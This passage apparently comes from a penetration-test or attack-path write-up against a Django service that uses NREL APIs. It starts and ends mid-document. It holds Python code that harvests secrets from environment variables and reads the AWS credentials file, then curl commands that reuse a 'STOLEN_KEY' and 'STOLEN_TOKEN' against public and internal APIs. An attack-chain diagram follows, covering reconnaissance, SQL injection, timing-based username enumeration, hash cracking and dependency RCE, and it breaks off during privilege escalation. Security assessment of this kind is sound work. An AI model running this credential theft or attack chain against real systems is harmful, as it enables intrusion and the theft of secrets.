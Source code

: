 **Step 2: Steal credentials for other services**

```python
# Check environment variables for secrets
import os
for key, value in os.environ.items():
    if any(x in key.lower() for x in ['key', 'secret', 'password', 'token']):
        print(f"{key}={value}")

# Check for AWS credentials
import pathlib
aws_creds = pathlib.Path.home() / '.aws' / 'credentials'
if aws_creds.exists():
    print(aws_creds.read_text())
```

**Step 3: Pivot to other services**

```bash
# If NREL_API_KEY was found, abuse it
curl "https://developer.nrel.gov/api/alt-fuel-stations/v1.json?api_key=STOLEN_KEY"

# Access other NREL internal APIs
curl "https://internal-nrel-api.example.com/data" \
  -H "Authorization: Bearer STOLEN_TOKEN"
```

---

## 7. Attack Chain Summary

### Complete Attack Path (External → Root)

```
┌─────────────────────────────────────────────────────────────────┐
│ PHASE 1: RECONNAISSANCE (30-60 min)                             │
├─────────────────────────────────────────────────────────────────┤
│ 1. Port scan: Identify Django on :8000, PostgreSQL on :5432    │
│ 2. Web fingerprinting: Confirm Django 4.0.7                     │
│ 3. Directory enumeration: Find /admin, /api/v1/*               │
│ 4. Source code analysis (if gray-box): Map attack surface      │
└─────────────────────────────────────────────────────────────────┘
                            ↓
┌─────────────────────────────────────────────────────────────────┐
│ PHASE 2: INITIAL ACCESS (1-2 hours)                             │
├─────────────────────────────────────────────────────────────────┤
│ Attack Vector 1: SQL Injection (CVE-2024-39330)                │
│   → Find endpoint with .values(user_input)                      │
│   → Extract database: usernames, password hashes, secrets      │
│   → Crack hashes with John/Hashcat                             │
│                                                                  │
│ Attack Vector 2: Timing Attack (CVE-2024-39329)                │
│   → Enumerate valid usernames via response time analysis       │
│   → Credential stuffing with common passwords                  │
│   → Gain access as regular user                                │
│                                                                  │
│ Attack Vector 3: Dependency Exploit                            │
│   → Audit dependencies with pip-audit                          │
│   → Exploit Celery RCE or Pillow vulnerabilities               │
│   → Achieve remote code execution                              │
└─────────────────────────────────────────────────────────────────┘
                            ↓
┌─────────────────────────────────────────────────────────────────┐
│ PHASE 3: PRIVILEGE ESCALATION (30 min - 1 hour)                │
├─────────────────────────────────────────────────────────────────┤
│ From Regular User → Admin:                                     │
```